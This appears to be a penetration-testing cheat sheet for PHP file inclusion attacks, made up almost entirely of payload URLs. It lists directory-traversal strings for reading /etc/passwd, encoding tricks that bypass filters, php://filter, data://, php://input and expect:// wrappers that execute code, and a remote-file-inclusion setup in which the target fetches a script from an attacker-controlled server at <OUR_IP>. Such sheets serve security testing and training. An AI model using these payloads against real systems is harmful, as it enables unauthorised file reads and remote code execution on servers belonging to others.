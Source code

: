 # File Inclusion Cheat Sheet

## Basic

### Absolute Path

```
http://example.com/query?var=/etc/passwd
```

### Directory Traversal

```
http://example.com/query?var=../../../../etc/passwd
```
```
http://example.com/query?var=....//....//....//....//etc/passwd
```
```
http://example.com/query?var=./var/../../../etc/passwd
```
```
http://example.com/query?var=..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

## Filter

```
http://example.com/query?var=php://filter/read=convert.base64-encode/ressource=\<FILE\>
```

## Wrappers

### data

```
http://example.com/query?var=data://text/plain;base64,\<URL\_BASE64\_ENCODED\_SCRIPT\>
```

### input

Need allow\_url\_include<br>
Give the script as POST data<br>

```
http://example.com/query?var=php://input
```

### Expect

Need expect extension and allow\_url\_include<br>

```
http://example.com/query?var=expect://id
```

## Remote File Inclusion

```
python3 -m http.server \<LISTENING\_PORT\>
```

```
http://example.com/query?var=http://\<OUR\_IP\>:\<LISTENING\_PORT\>/\<SCRIPT\>
```

Same with **FTP**<br>



